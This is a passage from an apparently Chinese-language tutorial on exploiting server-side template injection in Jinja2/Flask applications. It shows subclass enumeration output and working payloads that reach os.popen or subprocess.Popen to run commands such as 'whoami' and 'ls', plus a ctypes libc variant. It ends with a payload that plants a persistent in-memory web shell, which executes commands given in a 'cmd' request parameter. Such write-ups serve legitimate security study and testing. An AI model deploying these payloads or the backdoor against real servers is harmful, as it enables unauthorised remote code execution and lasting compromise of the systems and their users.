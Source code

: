 利用这个payload我们能获取到一些类。

接下来就是获取该类的方法，然后获取该方法的globals属性，观察有无os或者builtins，这是一项浩瀚的工程，可以借助脚本，也可以记住一些常见的能获取到风险函数的类。

例如在我本地执行上述payload后：

```
Hi, 0: type (builtins)1: async_generator (builtins)2: bytearray_iterator (builtins)
...
532: StreamWrapper (colorama.ansitowin32)533: AnsiToWin32 (colorama.ansitowin32)534: CompletedProcess (subprocess)535: Popen (subprocess).
```

我发现535是Popen，这个类的名字带有强烈的暗示性，所以我选择这个索引并查看它的init方法：

```
Hi, <function Popen.__init__ at 0x7f91fe4528e0>.
```

说明它存在globals属性，于是读取globals属性，最终发现os模块，因而有payload：

```jinja2
{{range.__class__.__base__.__subclasses__()[535].__init__.__globals__.os.popen("whoami").read()}}
```

一般来说，在绝大多数环境下，这些类经常被使用：

```
os._wrap_close
warnings.WarningMessage
_frozen_importlib.BuiltinImporter
subprocess.Popen
ctypes.CDLL
codecs.StreamReaderWriter
```

讲到此处我们可以触类旁通地发现，SSTI不只有一种方法去执行，如果我们获取的类本身就足够有特点，那么也不必拘泥于常规。

#### 特殊化Payload构造

以刚刚用过的subprocess.Popen为例，我们可以直接使用这个类创建一个对象，并只需要使用这个类即可：

```jinja2
{{''.__class__.__bases__[0].__subclasses__()[535]('ls', shell=True, stdout=-1).communicate()[0]}}
```

这样我们就绕过了使用`__globals__`，直接利用类特性就实现了RCE。

此外，我还发现在CDLL中存在引入libc直接执行命令的方式：

```jinja2
{{range.__class__.__base__.__subclasses__()[526](%27libc.so.6%27).system(%27whoami%27)}}
```

然而这种方式似乎因为权限问题或者环境变量问题无法正常使用，需要等待后续研究。

### 内存马

内存马是一种木马，在含有SSTI的地方选择如下payload可以打上内存马。通常用于网页无回显但可以判定为存在SSTI的时候。

```jinja2
{{url_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}}
```
